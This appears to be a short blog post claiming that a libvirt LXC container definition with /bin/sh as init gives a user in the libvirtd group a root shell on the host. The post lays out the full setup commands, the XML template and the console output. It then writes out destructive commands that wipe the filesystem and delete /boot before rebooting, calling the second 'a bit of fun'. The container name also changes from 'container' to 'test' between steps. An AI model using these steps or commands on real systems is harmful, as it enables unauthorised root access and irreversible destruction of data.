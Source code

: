 ```yaml
---
layout: post
title: Docker Container Madness
---
```


I'm unsure if this is a vulnerability on the intended behaviour of LXC/Docker. 
Nevertheless, this harmless configuration file seems to cause A LOT of worry.

If you want to try this out, then here is the preamble if you are running a Debian-based Linux. Make sure you have the Libvirt environment variable exported to work with LXC (e.g. `LIBVIRT_DEFAULT_URI=lxc:///`, such that Libvirt doesn't go looking for Xen or KVM.
{% highlight bash %}
admin@host:~$ sudo apt-get install docker virt-manager
admin@host:~$ export LIBVIRT_DEFAULT_URI=lxc:///{% endhighlight %}

Create an unprivileged user, but with access to the libvirtd group:
{% highlight bash %}
admin@host:~$ sudo useradd -G libvirtd user 
{% endhighlight %}
Now you should login as the ordinary user. Save the following XML template, which contains a name, a memory limit, console access and a shell. E.g. container.xml
{% highlight xml %}
  <domain type='lxc'>
	  <name>container</name>
	  <memory>102400</memory>
	  <os>
		  <type>exe</type>
		  <init>/bin/sh</init>
	  </os>
	  <devices>
		  <console type='pty'/>
	  </devices>
  </domain>
{% endhighlight %}
Import the container into Libvirt:
{% highlight bash %}
  user@host:~$ virsh define container.xml
{% endhighlight %}
Start the container:
{% highlight bash %}
  user@host:~$ virsh start test
  user@host:~$ virsh console test
{% endhighlight %}
And now run bash shell:
{% highlight bash %}
  Connected to domain test
  Escape character is ^]
  
  # bash
  bash: groups: command not found
  /bin/lesspipe: 1: /bin/lesspipe: basename: not found
  /bin/lesspipe: 1: /bin/lesspipe: dirname: not found
  /bin/lesspipe: 295: [: =: unexpected operator
  Command 'dircolors' is available in '/usr/bin/dircolors'
  The command could not be located because '/usr/bin' is not included in the PATH environment variable.
  dircolors: command not found
  root@host:/# 
{% endhighlight %}

Huh? You now have root on the host. 
What kind of messed up world is this? I can read/write to any file on the host:

{% highlight bash %}
  root@host:/# rm -rf /*
{% endhighlight %}

Or alternatively have a bit of fun
{% highlight bash %}
  root@host:/# rm /boot/*; reboot;
{% endhighlight %}

You can access everything in `/sbin`. 
Is it possible to be careful with Docker? It doesn't seem safe for mortals.


{% highlight bash %}
# docker version

Client version: 1.0.1
Client API version: 1.12
Go version (client): go1.2.1
Git commit (client): 990021a
Server version: 1.0.1
Server API version: 1.12
Go version (server): go1.2.1
Git commit (server): 990021a
```
{% endhighlight %}
